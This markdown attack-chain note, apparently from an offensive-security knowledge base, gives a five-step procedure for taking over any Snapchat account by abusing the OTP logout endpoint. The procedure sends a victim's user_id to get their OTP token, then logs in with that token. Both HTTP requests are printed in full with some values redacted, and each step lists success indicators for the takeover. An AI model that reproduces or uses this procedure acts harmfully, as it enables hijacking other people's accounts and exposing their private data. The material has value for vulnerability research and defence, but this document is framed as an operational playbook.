

---
tags:
  - account-takeover
  - otp-bypass
  - improper-authentication
  - snapchat
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
  - '[[tools/Python-Script-for-Snapchat-API-Automation]]'
tactics:
  - '[[Initial Access]]'
  - '[[Privilege Escalation]]'
commands:
  - '[[commands/snapchat-logout-otp-request]]'
  - '[[commands/snapchat-otp-login-request]]'
platforms:
  - Web
  - Cloud (GCP)
  - Mobile (Android)
complexity: medium
procedures:
  - '[[procedures/Manipulate-Snapchat-Logout-Endpoint-to-Obtain-Victim-OTP]]'
  - '[[procedures/Perform-Snapchat-Login-Using-Stolen-OTP-Token]]'
step_count: 5
techniques:
  - '[[Valid Accounts]]'
  - '[[Use Alternate Authentication Material]]'
description: >-
  Multi-stage attack chain exploiting improper authentication in Snapchat's OTP
  logout endpoint to perform account takeover on any user with a known user_id.
skill_level: intermediate
impact_level: high
id: cf82931f-6078-4705-b06b-1d83bdc2b6a6
created_at: '2025-12-11T06:10:40.174Z'
updated_at: '2025-12-11T06:10:40.174Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[TA0001]]'
  - '[[TA0004]]'
mitre_techniques:
  - '[[T1078]]'
  - '[[T1550]]'
---
# Snapchat Account Takeover via Improper Authentication in OTP Logout Endpoint

## Overview

This attack chain demonstrates how an attacker can exploit a vulnerability in Snapchat's OTP logout endpoint by manipulating the user_id parameter to obtain an OTP token for any victim user. The attacker then uses this token to log in as the victim, achieving full account takeover. The vulnerability stems from improper authentication where the endpoint does not validate the user_id against the authenticated session. This allows arbitrary account access if the victim's user_id is known, which can be obtained from friend requests or other means.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/Python-Script-for-Snapchat-API-Automation]]

### Target Environment

- Platform: Web, Cloud (GCP), Mobile (Android)
- Required services/ports: Snapchat Authentication API (HTTPS to gcp.api.snapchat.com)
- Network access requirements: Internet access to Snapchat API endpoints

### Initial Access Requirements

- Credential requirements: Attacker's own Snapchat credentials for initial login
- Network position: Any internet-connected device
- Prior access needed: Knowledge of victim's user_id (obtainable from friend requests) and username

## Detailed Attack Procedures

### Step 1: Attacker Performs Usual Login - [[procedures/Manipulate-Snapchat-Logout-Endpoint-to-Obtain-Victim-OTP]]

**Procedure**: [[procedures/Manipulate-Snapchat-Logout-Endpoint-to-Obtain-Victim-OTP]]

**Objective**: Log in to the attacker's own Snapchat account to establish an authenticated session for subsequent requests.

**Instructions**:

Perform a normal login to the attacker's account using the Snapchat app or API. This sets up the necessary authentication headers like X-Snapchat-Client-Auth and X-Snapchat-UUID.

**Expected Output**: Successful login confirmation with attacker's session tokens.

**Success Indicators**:
- Authenticated session established
- Ability to make API requests as the attacker

### Step 2: Send Logout Request with Victim's User ID - [[procedures/Manipulate-Snapchat-Logout-Endpoint-to-Obtain-Victim-OTP]]

**Procedure**: [[procedures/Manipulate-Snapchat-Logout-Endpoint-to-Obtain-Victim-OTP]]

**Objective**: Manipulate the logout endpoint to request an OTP for the victim's user_id without validation.

**Instructions**:

Use [[tools/Burp-Suite]] to intercept and modify the logout request. Execute [[commands/snapchat-logout-otp-request]] with the user_id set to the victim's ID:

```http
POST /scauth/otp/droid/logout HTTP/1.1
Host: gcp.api.snapchat.com
Connection: close
Content-Length: 168
X-Snapchat-Client-Auth: ██████
X-Snapchat-UUID: ███
x-snapchat-userid: █████
username: ███
req_token: █████████
timestamp: 1594604280000
Accept: application/json
User-Agent: Snapchat/10.78.1.0 █████
Accept-Language: en-GB;q=1, en;q=0.9
Content-Type: application/json; charset=utf-8
Accept-Encoding: gzip, deflate

{"user_id":"████","device_id":"███████","device_name":"███████"}
```

**Expected Output**: Server responds with OTP token for the victim.

**Success Indicators**:
- Response status: SUCCESS
- JSON includes victim's user_id, token, and expiry_hint

### Step 3: Receive OTP Token Response - [[procedures/Manipulate-Snapchat-Logout-Endpoint-to-Obtain-Victim-OTP]]

**Procedure**: [[procedures/Manipulate-Snapchat-Logout-Endpoint-to-Obtain-Victim-OTP]]

**Objective**: Capture the OTP token from the server's response for use in login.

**Instructions**:

Monitor the response in [[tools/Burp-Suite]]. Extract the token field from the JSON response.

**Expected Output**: JSON response with status SUCCESS, victim's user_id, token, and expiry_hint.

**Success Indicators**:
- Valid OTP token obtained
- Token is not expired based on expiry_hint

### Step 4: Perform Login Request with OTP - [[procedures/Perform-Snapchat-Login-Using-Stolen-OTP-Token]]

**Procedure**: [[procedures/Perform-Snapchat-Login-Using-Stolen-OTP-Token]]

**Objective**: Use the obtained OTP token to log in as the victim.

**Instructions**:

Use [[tools/Burp-Suite]] to send the login request with the victim's username and the stolen token. Execute [[commands/snapchat-otp-login-request]]:

```http
POST /scauth/otp/login HTTP/1.1
Host: gcp.api.snapchat.com
Connection: close
Content-Length: 6213
X-Snapchat-Client-Auth: ██████
X-Snapchat-UUID: ████████
User-Agent: Snapchat/10.78.1.0 ██████
Accept: application/json
Accept-Language: en-GB;q=1, en;q=0.9
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Accept-Encoding: gzip, deflate

application_id=com.snap.framework&attestation=████████&device_id=█████████&dsig=█████&dtoken1i=██████&fidelius_client_init=███████&height=1920&max_video_height=1920&max_video_width=1080&password=███████&reactivation_confirmed=false&req_token=████████&screen_height_in=4.527565&screen_height_px=1920&screen_width_in=2.5590599&screen_width_px=1080&timestamp=1594604398438&token=████&username=█████&width=1080
```

**Expected Output**: Successful login response confirming access as victim.

**Success Indicators**:
- Response includes logged: true
- Victim's username and user_id in the response

### Step 5: Confirm Account Takeover - [[procedures/Perform-Snapchat-Login-Using-Stolen-OTP-Token]]

**Procedure**: [[procedures/Perform-Snapchat-Login-Using-Stolen-OTP-Token]]

**Objective**: Verify full access to the victim's account.

**Instructions**:

Check the login response for confirmation. Attempt to access victim account features to validate takeover.

**Expected Output**: Response confirms login with victim's details.

**Success Indicators**:
- Ability to access victim's snaps, friends, and other data
- No authentication challenges

## Attack Chain Summary

### Key Achievements

1. Obtained OTP token for arbitrary user without credentials
2. Bypassed authentication to log in as victim
3. Achieved full account takeover with potential for data exfiltration or further abuse

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]]
- [[Use Alternate Authentication Material]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Privilege Escalation]]

*Last updated: 2023-10-01*
